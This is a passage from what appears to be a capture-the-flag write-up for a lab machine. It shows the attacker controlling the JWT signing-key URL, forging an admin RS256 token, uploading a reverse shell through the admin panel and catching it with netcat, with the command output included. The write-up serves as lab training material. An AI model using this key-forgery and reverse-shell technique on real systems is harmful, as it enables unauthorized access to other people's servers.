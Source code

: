 


We create a simple webserver to receive the request
```bash
$ python3 -m http.server 7070
Serving HTTP on 0.0.0.0 port 7070 (http://0.0.0.0:7070/) ...
10.10.10.230 - - [05/May/2021 11:37:27] code 404, message File not found
10.10.10.230 - - [05/May/2021 11:37:27] "GET /privKey.key HTTP/1.1" 404 -
```

We are not currently hosting a `privKey.key` yet, but this response confirm that the file is actually fetched.  

How can we leverage it?

Well, given that we can control the private key, we can forge any JWT token we want.

#### Login as admin

We create our new token using *JWT.io*, very fast and convenient.

We select the **RS256** algorithm.   
The *JWT.io* offers an easy to use interface to create tokens. They already provide us of a mock private and pub key pair
We change the username to **admin** and the **admin_cap** to 1 (Not really sure what it does, but it's probably 1 for admins))
>![]({{ page.dirImg }}/20210505-133243.png){: .shadow}

The private key will be used by the victim server to check the validity of the signature.  
We create a `privKey.key ` in locale, copying the private key from *JWT.io*.

We start again the local webserver: `python3 -m http.server 7070`.

We copy the token and paste it in the auth cookie.
>![]({{ page.dirImg }}/20210505-133454.png){: .shadow}

Refreshing the page we are logged in as **admin**.

>![]({{ page.dirImg }}/20210505-132951.png){: .shadow}

In the **Admin panel** we can upload a file. We upload our reverse shell and we get foothold.

```bash
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.22] from (UNKNOWN) [10.10.10.230] 51240
Linux thenotebook 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 11:43:52 up  6:35,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami 
www-data
$ 
```

## User
